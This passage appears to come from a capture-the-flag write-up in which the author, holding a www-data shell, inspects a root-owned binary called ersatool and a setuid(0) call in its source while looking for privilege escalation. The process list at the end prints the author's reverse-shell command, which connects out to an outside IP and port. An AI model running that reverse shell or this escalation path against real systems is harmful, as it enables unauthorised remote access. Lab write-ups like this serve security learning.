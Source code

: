 It scrubs the input of all characters that aren’t letters, numbers or space, and runs `/usr/bin/erasatool create $cn`, printing the results.

That binary doesn’t look special at first glance:

```

www-data@pki:~/html$ ls -l /usr/bin/ersatool
-rwxr-xr-x 1 root root 22496 Jun 21 17:05 /usr/bin/ersatool

```

There’s also a `ersatool.c` file in `/usr/src` that is likely the source for the application.

```

www-data@pki:~/html$ ls /usr/src/
ersatool.c

```

Looking through the source, there are two places where it calls `setuid`. For example, in the `filePrint` function:

```

void filePrint(char *filename){
        int bfsiz=1;
        char buffer[bfsiz];
        int fd;
        ssize_t fr;
        memset(buffer,0,bfsiz);
        setuid(0); //escalating privileges to read root owned files
        if((fd=open(filename,O_RDONLY))<0){
                printf("[!] ERR reading %s!\n",filename);
        }
        while(fr=read(fd,buffer,bfsiz)>0){
                printf("%s",buffer);     
                memset(buffer,0,bfsiz);  
        }
        close(fd);
        fflush(stdout);             
} 

```

That raises a question - how can it make that call? It would need to be running as root, or somehow be given that capability. I already looked, and while the file is owned by root, it isn’t SUID. It is being called by NGINX, but that process is running as www-data, as evidenced by my current shell, as well as the process list:

```

www-data@pki:~/html$ ps auxww                       
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  0.0   4628   856 ?        Ss   11:40   0:00 /bin/sh -c /entry.sh
root          9  0.0  0.0  18376  3056 ?        S    11:40   0:00 /bin/bash /entry.sh
root         11  0.0  0.0 141120  1572 ?        Ss   11:40   0:00 nginx: master process nginx
www-data     12  0.0  0.1 141776  5076 ?        S    11:40   0:02 nginx: worker process
www-data     13  0.0  0.0 141440  3480 ?        S    11:40   0:00 nginx: worker process
root         14  0.0  0.3  84952 12824 ?        Ss   11:40   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
www-data     15  0.0  0.2  85216  9384 ?        S    11:40   0:01 php-fpm: pool www
www-data     19  0.0  0.2  85216  9388 ?        S    11:40   0:01 php-fpm: pool www
www-data    128  0.0  0.2  85224 10080 ?        S    12:04   0:02 php-fpm: pool www
www-data    636  0.0  0.2  85220  9512 ?        S    12:05   0:01 php-fpm: pool www
www-data  11226  0.0  0.2  85220  9512 ?        S    12:07   0:00 php-fpm: pool www
www-data  14776  0.0  0.0   4628   860 ?        S    12:22   0:00 sh -c bash -c 'bash -i >& /dev/tcp/192.168.254.2/4433 0>&1'
```